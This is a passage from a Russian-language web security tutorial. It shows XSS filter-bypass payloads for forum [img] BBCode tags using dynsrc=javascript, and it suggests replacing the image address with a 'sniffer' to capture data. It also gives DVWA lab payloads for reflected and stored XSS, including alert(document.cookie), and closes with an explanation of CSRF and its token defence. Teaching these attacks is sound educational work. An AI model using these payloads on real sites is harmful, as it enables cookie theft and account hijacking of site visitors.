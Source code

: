 Предположим, мы добились крестика этим:

```html
[img]https://...ru/1.jpg[/img]
```

Проверим держит ли фильтр пробел, добавляем пробел после расширения jpg:

```html
[img]https://...ru/1.jpg [/img]
```

Если крестик есть - тогда всё ОК. Далее существуют у img параметры dynsrc и lowsrc которые держат js. Пытаемся к примеру
вставить:

```html
[img]https://...ru/1.jpg dynsrc=javascript:alert()[/img]
```

Проверяем и отсылаем. Если появиться сообщение – значит нашли активную XSS и вместо `alert()` можете вставить любой
скрипт. Если фильтр не сдался попробуйте так:

```html
[img]https://...ru/"/dynsrc="javascript:alert()"/1.jpg[/img]
```

или

```html
[img]https://...ru/"/dynsrc=javascript:alert()/1.jpg[/img]
```

Если с приведённых примеров получился крестик, то `httрs://...ru/1.jpg` заменяем на адрес сниффера.

Примеры взяты из [XSS для новичков](https://forum.antichat.ru/threads/20140/).

Пример: переходим на вкладку `XSS (Reflected)`. Сайт берет данные из строки и без изменений подставляет в
блок `echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';`.

```javascript
<script>alert(document.cookie)</script>
```

Переходим во вкладку `XSS (Stored)`. Сайт берет данные из поля message и в исходном виде вставляет в html страницу:

```javascript
<script>alert("Hello, world")</script>
<iframe src="http://www.cnn.com"></iframe>
```

### CSRF (Cross Site Request Forgery)

Вид атак на посетителей веб-сайтов, использующий недостатки протокола HTTP. Если жертва заходит на сайт, созданный
злоумышленником, от её лица тайно отправляется запрос на другой сервер, осуществляющий некую вредоносную операцию. Это
становится возможно потому что при запросе будут передаваться cookies, т.е. запрос будет воспринят как исходящий от
аутентифицированного пользователя. Cookie удостоверяют личность, но никак не гарантируют подлинность данных. Типичный
способ защиты сайтов – это секретный ключ – специальное значение, которое генерируется случайным образом и сохраняется в
сессии посетителя. Его знает только сервер, в браузере оно обычно хранится как скрытое поле на форме или в
Cookies.Спецификация протокола HTTP/1.1 определяет безопасные методы запросов, такие как GET, HEAD, которые не должны
изменять данные на сервере. Для таких запросов, при соответствии сервера спецификации, нет необходимости применять
защиту CSRF.
